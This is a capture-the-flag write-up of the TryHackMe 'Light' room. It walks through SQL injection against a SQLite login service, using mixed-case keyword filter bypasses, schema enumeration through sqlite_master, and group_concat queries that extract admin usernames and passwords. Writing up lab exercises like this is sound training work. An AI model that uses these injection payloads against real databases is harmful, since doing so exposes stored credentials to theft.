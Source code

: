 # Light

<br>

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838" width="200">
</p>

> *Welcome to the Light database application!*

<br>

## 🧠 Intro
Welcome to **Light**, a short and clever room focused on **SQL Injection (SQLi)** and database misconfigurations. We’ll dig into some manual SQLi and bypass filters to uncover secrets hidden in plaintext. 

*Deploy the machine and let’s shine some light on this challenge.* 💡

<br>

## 🎯 Task
To pwn this room, we need to:

- Find the **username** and **password** of the **admin** user.
- Capture the **flag**.

<br>

## 🔍 Recon
The room description hints at connecting to the machine via netcat on port `1337`.

```bash
nc MACHINE_IP 1337
```

![Light_x](src/Light_x)

We're greeted by a minimal login interface. We try logging in with:

> Username: `smokey`

The server responds with the corresponding password—but doesn’t actually log us in. Strange. Seems like we’re just querying the database and getting a response.

Time to test for SQL injection. 😈

<br>

## 🧪 Exploitation (SQLi)

We start simple with the classic:

```sql
' OR 1=1 --
```

But the server blocks us:

> *"For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)"*

Okay, so comments and certain keywords are filtered. Let’s try without the comment:

```sql
' OR 1=1
```

And now we get:

> *"Error: unrecognized token: "''' LIMIT 30""*

Looks like an issue with unmatched quotes. So we try:

```sql
' OR '1=1
```

Success! We get this as response:

> *Password:

This confirm that SQLi works. Now let’s go deeper. We need to find out what DBMS we're dealing with.

We suspect it's **SQLite** (given the name *Light*), so we try this payload:

```sql
' UNION SELECT sqlite_version() '
```

...but the server complains:

> *"Ahh there is a word in there I don't like :("*  

Looks like keywords are filtered in uppercase. What if we capitalize?

```
' Union Select sqlite_version() '
```

Boom. This works—we get:

> *Password: 3.31.1*

So we’re dealing with SQLite 3. Nice.

Now, let’s enumerate the schema via the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```

This returns the table schema:

> `CREATE TABLE admintable (username TEXT, password TEXT)`

Perfect. Now let’s extract the data.

To list usernames:

```sql
' Union Select group_concat(username) From admintable '
```

Result:

![Light_x](src/Light_x.png)

Then for passwords:

```sql
' Union Select group_concat(password) From admintable '
```

And we get:

![Light_x](src/Light_x.png)

Mission complete. 🎯

<br>

## 🏁 Got the Flag
The flag is on the password collum in the admintable table

```
flag{go_get_it}
```

*Straight from the shadows into the light.* 🕶️💡

<br>

## 🎯 Notes
This room shows how powerful SQL injection can be even in very restricted environments. Filter bypassing, capitalization tricks, and knowledge of DBMS behavior are all key tools when digging into databases.

*Keep it light—but thorough.* 😉

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Light](https://tryhackme.com/room/lightroom)
- 🏷️ Difficulty: Easy
- 🧠 Focus: SQLi (SQL Injection)
